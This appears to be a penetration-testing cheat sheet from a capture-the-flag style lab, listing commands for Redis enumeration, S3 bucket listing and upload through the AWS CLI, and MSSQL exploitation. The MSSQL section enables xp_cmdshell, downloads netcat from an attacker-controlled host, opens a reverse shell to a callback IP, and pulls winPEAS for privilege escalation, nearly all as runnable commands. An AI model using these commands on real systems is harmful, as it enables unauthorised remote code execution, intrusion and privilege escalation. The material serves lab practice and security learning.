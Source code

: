 ## 🗄️ Redis

```bash
# Connect to Redis server
redis-cli -h <TARGET>

# Redis commands:
INFO                    # Get server information
CONFIG GET databases    # Get database configuration
INFO keyspace          # Get keyspace information
SELECT <DB_INDEX>       # Select database by index
KEYS *                  # List all keys
GET flag               # Get value for 'flag' key
```

## ☁️ AWS

```bash
# Install AWS CLI
sudo apt install -y awscli

# Configure AWS CLI (must provide values even if not used)
aws configure

# List S3 buckets using custom endpoint
aws --endpoint=<S3_URL> s3 ls

# List contents of specific S3 bucket
aws --endpoint=<S3_URL> s3 ls s3://<DOMAIN>

# Upload file to S3 bucket
aws --endpoint=<S3_URL> s3 cp <FILE> s3://<DOMAIN>
```

## 🖥️ MSSQL

```bash
# Connect to MSSQL server using impacket
/usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth '<DOMAIN>/<USER>:<PASSWORD>@<TARGET>'

# MSSQL commands:
select @@version;                    # Get SQL Server version

# Enable xp_cmdshell for command execution
enable_xp_cmdshell

# Execute commands via xp_cmdshell
xp_cmdshell "powershell.exe -exec bypass -c wget http://10.10.14.190:8000/nc64.exe -outfile ../../Users/<USER>/Desktop/nc64.exe"

# Set up listener for reverse shell
nc -lvnp 443

# Execute reverse shell
xp_cmdshell "powershell.exe -exec bypass -c ../../Users/<USER>/Desktop/nc64.exe -e cmd.exe <CALLBACK_IP> 443"

# Download and run winPEAS for privilege escalation
cd ~/Downloads/ && python3 -m http.server 8000 &
xp_cmdshell "powershell.exe -exec bypass -c wget http://<CALLBACK_IP>:8000/winPEASx64.exe -outfile ../../Users/<USER>/Desktop/winPEASx64.exe"
```